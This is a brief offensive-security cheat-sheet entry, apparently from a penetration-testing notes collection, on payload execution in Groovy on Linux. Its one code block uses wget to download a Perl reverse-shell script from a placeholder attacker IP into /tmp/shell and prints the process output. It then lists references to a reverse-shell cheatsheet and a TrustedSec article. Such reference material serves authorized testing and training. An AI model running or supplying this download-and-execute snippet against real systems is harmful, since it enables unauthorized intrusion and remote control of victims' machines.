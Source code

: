 # Linux

## Payload Execution

### Download and Execute

```groovy
def command = "wget http://<attacker_IP>/perl-reverse-shell.pl -O /tmp/shell"
def proc = command.execute()
proc.waitFor()

println "Process exit code: ${proc.exitValue()}"
println "Std Err: ${proc.err.text}"
println "Std Out: ${proc.in.text}"
```

---
## References

### Internal All The Things

- [InternalAllTheThings: Reverse Shell Cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet)

### TrustedSec

- [TrustedSec: Offensively Groovy](https://trustedsec.com/blog/offensively-groovy)